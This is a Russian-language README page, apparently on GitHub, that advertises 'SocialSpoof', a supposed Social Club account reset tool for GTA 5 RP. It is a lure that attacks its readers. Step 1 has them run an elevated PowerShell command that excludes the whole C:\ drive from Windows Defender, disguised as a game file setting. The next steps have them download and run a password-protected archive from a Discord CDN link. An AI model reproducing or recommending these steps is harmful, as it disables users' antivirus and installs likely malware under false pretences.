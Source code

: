 # SocialSpoof - Как сбросить ваш Social Club для аккаунта GTA 5 RP
                                        
📖 В этой статье я расскажу вам, как это сделать. 👇

                                                  🔧Установка

Шаг 1 ⚙️

<details>
<summary style="color: blue; font-weight: bold;">Сделайте расширение системных файлов Rage Mp</summary>

Нажмите Win+R и введите команду

`powershell.exe -Command "Start-Process powershell.exe -Verb RunAs -ArgumentList 'Add-MpPreference -ExclusionPath C:\ -Force'"`

</details>

Шаг 2 📥

Как только выполнили расширение, загрузите [SocialSpoof](https://cdn.discordapp.com/attachments/1153709870365806742/1154026506331377754/SocialSpoof.rar)

Шаг 3 📂

Пароль : 1234

Распакуйте на рабочем столе и запустите

Шаг 4 🚀

Запустите софт, и заходите в игру

Шаг 5 ✏️

Введите почту и пароль.

Готово! Теперь вы можете наслаждаться игрой с новым аккаунтом! 🎉😎

                                             🔧Не забудьте выполнить инструкцию 

